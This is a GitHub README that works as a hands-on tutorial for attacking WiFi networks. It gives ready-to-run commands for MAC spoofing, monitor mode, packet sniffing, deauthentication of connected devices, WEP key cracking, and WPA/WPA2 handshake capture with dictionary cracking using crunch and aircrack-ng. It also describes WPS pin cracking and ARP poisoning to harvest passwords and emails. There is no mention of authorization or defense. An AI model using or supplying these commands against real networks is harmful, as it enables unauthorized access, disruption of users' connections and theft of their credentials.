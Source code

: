 # WiFi-Project

Pre-connection attacks, gaining access & post-connection attacks on WEP, WPA & WPA2. 🛰✔️

* ## Prerequisites
0. Linux + wireless adapter.

1. Change the MAC address of your wireless adapter, either for hiding a computer on a network or for allowing it to impersonate another network device.

```
ifconfig wireless_adapter_name down
ifconfig wireless_adapter_name hw ether 00:19:35:89:88:14
ifconfig wireless_adapter_name up
```

2. Change your wireless interface to "Monitor" mode. By default, the mode of wireless devices is set to "Managed", that means our wireless device will only capture packets that have our device's MAC address as the destination MAC.

```
ifconfig wireless_adapter_name down
airmon-ng check kill (kill all interference processes)
iwconfig wireless_adapter_name mode monitor
ifconfig wireless_adapter_name up
iwconfig
```

* ## Pre-connection attacks
1. Discover the networks around you:
```
airodump-ng wireless_adapter_name
```
![Discover networks around you](https://user-images.githubusercontent.com/64968597/134020395-c7a67e4b-d7d0-4a84-a155-8a67fdf449c9.JPG)

2. Sniff the packets from a specified network:
```
airodump-ng --bssid target_MAC --channel N (--write file_name) wireless_adapter_name
```

3. Deauthentication attack (disconnect any device from the network):

```
aireplay-ng --deauth time_out -a router_addr -c target_mac_addr wireless_adapter_name
```
This attack will always work ! The only way around it is to change the MAC address of the target machine.

* ## Gaining access

1. WEP cracking : (~100% success)
   
   Each packet is encrypted using a unique key stream.
   <br/> A random initialization vector (IV) is used to generate the keys stream. This initialization vector is only 24 bits long.
   <br/> The IV is too small and sent in plain text, so in busy networks, IV's will repeat, making it vulnerable to statistical attacks. Therefore, the key stream can be determined and the encryption broken.

   To crack WEP, we need a large number of packets/IVs to analyse the IVs and crack the router's key.

   Step 1:
   <br/> Capture a large number of packets 
   ```
   airodump-ng --bssid MAC --channel N --write file_name wireless_adapter_name
   ```
   
   Step 2:
   <br/> Run aircrack-ng to crack the password
   ```
   aircrack-ng .cap_file_captured_previously
   ```
   Gets cracked instantly !
   
2. WPA/WPA2 cracking : (~40% success)
   
   The goal is to capture the handshake (4 packets) between the router and a device.
   
   Step 1: 
           <br/> Run a deauthentication attack against a device connected to the router and wait for him to connect back to it OR wait for a new client to connect.
           <br/> Catch the handshake using "airodump-ng".
           <br/> In a straight forward way, the handshake doesn't contain data that helps recover the key.
           <br/> However, it contains data that can be used to compute if a key is valid or not !
           <br/> Useful information in the handshake - MIC (Message Integrity Code): SP address, STA address, AP nonce, STA nonce, EAPOL, Payload
   
   Step 2: 
           <br/> Create a wordlist/dictionnary: "crunch" command
           <br/> Example: "crunch 6 8 abc123 -o wordlist.txt" --> creates a wordlist of length 6 to 8 with characters abc123 in a file called wordlist.txt
           <br/> Argument "-d 1@" is specified for non-repeating letters.
           <br/> Combining the useful information to the wordlist will create new MICs, which will be compared to the (2nd message) MIC of the 4-way handshake.
           <br/> if(new_MIC == MIC), then the passphrase generating this MIC is the router's password !
           
   ```
   aircrack-ng file_.cap_containing_handshake -w word_list
   ```
            
https://user-images.githubusercontent.com/64968597/134026257-af761b17-4b0b-4c87-95aa-b7999ee1a2b3.mp4

![password_crack](https://user-images.githubusercontent.com/64968597/134026466-bfc08a47-8d84-4f6f-98af-816a25209824.JPG)


   Another method:
            <br/> Exploit the WPS feature (except if PBC is enabled: Push Button Authentication)
            <br/> The WPS feature allows clients to connect without a password.
            <br/> Authentication is done using a 8 digit pin, which can be cracked under a minute.

* ## Post-connection attacks

![https_bypass_blur](https://user-images.githubusercontent.com/64968597/134031635-1eb1f336-2dc0-4400-8f64-566ddcf44f2f.png)

1. ARP poisoning using bettercap, arpspoof, etc.:
   <br/> The captured packets are then easily analysed (using Wireshark) to gather passwords, emails, usernames, etc.
